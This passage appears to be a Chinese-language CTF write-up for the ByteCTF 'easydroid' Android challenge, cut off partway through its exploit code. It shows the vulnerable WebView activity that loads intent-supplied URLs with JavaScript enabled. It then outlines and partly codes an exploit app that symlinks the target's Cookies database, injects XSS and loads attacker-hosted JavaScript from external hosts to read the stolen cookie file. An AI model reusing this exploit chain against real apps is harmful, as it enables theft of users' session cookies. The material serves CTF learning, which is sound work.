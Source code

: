 ```plain
package com.bytectf.easydroid;

import android.app.Activity;
import android.os.Bundle;
import android.webkit.WebView;

public class TestActivity extends Activity {
    /* access modifiers changed from: protected */
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        String url = getIntent().getStringExtra("url");
        WebView webView = new WebView(getApplicationContext());
        setContentView(webView);
        webView.getSettings().setJavaScriptEnabled(true);
        webView.loadUrl(url);
    }
}
```

这个直接就很明显，直接获取intent的url参数进行一个解析成js，这就是在我们exp的setData的一个url参数，盗取cookie文件  
思路：  
1.第一步利用软连接创建一个symlink.html指向Cookies数据库，然后在加载我们自己的网页时注入一个XSS到Cookie中  
2.利用Intent广播一下把data数据放到目标MainActive里，然后用webview进行加载一下我们设置的远程服务器上的js xss代码  
3.然后在我们放的远程代码里放的代码里进行停留，并且接受刚刚创建的软链接，让它导进来并且将cookie文件回显到当前页面上，成功读取flag  
AndroidManifest.xml:

我们在AndroidManifest还是要再次申请一个权限，因为利用的是Intent

MainActive.class:

```plain
package com.bytectf.pwneasydroid;
import android.annotation.SuppressLint;
import android.app.Activity;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.os.Handler;
import android.util.Log;
import android.webkit.WebView;
import android.webkit.WebViewClient;
import android.widget.EditText;
import android.widget.Toast;
import java.net.URISyntaxException;
public class MainActivity extends Activity {
    //EditText ed;
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        //ed = new EditText(this);
        //setContentView(ed);
        //launch("file://" + symlink());
        symlink();   //创建软链接
        Intent i = new Intent();
        i.setClassName("com.bytectf.easydroid","com.bytectf.easydroid.MainActivity");
        i.setData(Uri.parse("http://toutiao.com.azly.top/index.html"));
        new Handler().postDelayed(() -> startActivity(i),5000);
    }
    private void launch(String url) {
        Uri uri = Uri.parse("http://106.14.254.135#toutiao.com/");
        Intent i = new Intent();
        i.setClassName("com.bytectf.easydroid","com.bytectf.easydroid.TestActivity");
        i.putExtra("url",url);
        i.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK | Intent.FLAG_ACTIVITY_CLEAR_TASK);
        String url_str = i.toUri(Intent.URI_INTENT_SCHEME);
```
